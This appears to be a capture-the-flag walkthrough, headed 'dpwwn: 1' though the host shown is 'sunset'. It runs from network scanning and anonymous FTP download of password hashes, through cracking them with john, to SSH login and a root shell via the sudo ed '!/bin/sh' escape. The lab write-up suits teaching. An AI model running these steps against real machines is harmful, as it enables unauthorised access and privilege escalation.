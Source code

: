 # dpwwn: 1

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.119	08:00:27:d3:ce:c3	PCS Systemtechnik GmbH
192.168.56.100	08:00:27:29:ed:8e	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.119`, let's scan it.


```bash
root@kali: nmap -v -p21,22,80,8080 -sV -sC -oN nmap.out 192.168.56.119

Nmap scan report for 192.168.56.119
Host is up (0.00024s latency).

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.119:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
80/tcp   closed http
8080/tcp closed http-proxy
MAC Address: 08:00:27:D3:CE:C3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the only ports are `21` and `22`, so let's check ftp first :

we are able to connect to ftp via user `anonymous` :

```bash
tp 192.168.56.119                                    
Connected to 192.168.56.119.
220 pyftpdlib 1.5.5 ready.
Name (192.168.56.119:root): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering extended passive mode (|||41299|).
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup

ftp> get backup
local: backup remote: backup
229 Entering extended passive mode (|||36815|).
125 Data connection already open. Transfer starting.
100% |******************************************************************************************|  1062      179.86 KiB/s    00:00 ETA
226 Transfer complete.
```

inside backup file we see this 5 hashes, because it is some how not in a good format

i just copied and paste each line in a new file call `user.txt`, the hash type can be identified with `hashid` :

```bash
root@kali: hashid -mj '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'

Analyzing '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'
[+] SHA-512 Crypt [Hashcat Mode: 1800][JtR Format: sha512crypt]
```

## 2.Gaining Shell

Just use `john` to crack the password :

```bash
root@kali: john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt user.txt 

Using default input encoding: UTF-8
Loaded 5 password hashes with 2 different salts (2.5x same-salt boost) (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
space            (space)     
cheer14          (sunset)     
sky              (sky)  
```


try different users, but you can only login with user `sunset` :

```bash
root@kali: ssh sunset@192.168.56.119
sunset@192.168.56.119's password: 
Linux sunset 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 28 20:52:38 2019 from 192.168.1.182

sunset@sunset:~$ id
uid=1000(sunset) gid=1000(sunset) groups=1000(sunset),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
```

## 3.Privilege Escalation

Check sudo permissions on this user :

```bash
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
```

so we can only run `ed` binary with no password :

```bash
unset@sunset:~$ sudo /usr/bin/ed
id
?
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root

# cat flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```
